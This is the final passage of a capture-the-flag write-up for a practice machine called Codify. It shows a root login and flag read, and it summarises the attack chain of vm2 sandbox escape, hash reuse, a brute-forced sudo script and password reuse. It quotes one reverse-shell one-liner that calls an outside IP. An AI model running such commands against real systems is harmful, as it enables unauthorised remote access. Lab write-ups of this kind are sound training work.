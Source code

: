 The recovered password works for the root account as well:

```console
joshua@codify:/opt/scripts$ su - root
Password: 
root@codify:~# cat root.txt
ff91e4[...]
```

## Questions

- Why didn't `sh -i >& /dev/tcp/10.10.16.5/443 0>&1` work for the reverse shell? Even when I `base64`-encoded it?

## Summary

This machine had an easy initial foothold via the vulnerable `vm2` web service. From there I could discover a password hash that was also valid for `ssh` login for the admin user. That user had `sudo` access to a script with a flaw in the string comparison, allowing a brute-force approach to recover the MySQL password character-by-character. (This may have been easier using `pspy` to snoop on the cmdline args for `mysql`.) Because of password-reuse, that password also granted shell access to the root account.
